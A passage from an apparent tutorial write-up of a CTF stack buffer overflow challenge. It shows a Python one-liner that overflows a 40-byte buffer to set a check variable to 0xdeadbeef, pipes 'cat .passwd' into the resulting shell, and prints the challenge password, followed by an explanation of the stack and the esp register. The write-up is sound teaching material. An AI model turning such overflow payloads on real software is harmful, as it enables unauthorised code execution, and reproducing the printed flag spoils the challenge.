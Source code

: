 ```bash
app-systeme-ch13@challenge02:~$ (python -c 'import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef)';echo cat .passwd) | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
1w4ntm0r3pr0np1s
Shell closed! Bye.
```

So to summarise, using our understanding of the stack we've effectively corrupted and overwritten a stack variable via an overflow.

The stack
----------
<p align="center">
<img src='/assets/img/stack-bof-1/stack-1.png'>
 </p>

So I've mentioned the stack a lot, but how do we know where it's located and how does it relate to `esp` which we kept referring to?  The diagram above illustrates generally how it looks in memory.  Of course a lot of details are missing but it does show the basics.

We define where the top of the stack is located in memory at any specific time with the `esp` register.  It defines the location of the top of the stack, and is manipulated with individual `push` and `pop` instructions, which as their names might indicate, either add or remove from the stack.  The stack itself will grow downwards in memory for x86 architectures.  Therefore, if we push to the stack a value, that value is written to the location at `esp` and the value of `esp` is decremented, and incremented for popping from it.  The diagram below illustrates what happens to ESP as we push and pop.

<p align="center">
<img src='/assets/img/stack-bof-1/stack-2.png'>
 </p>


[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA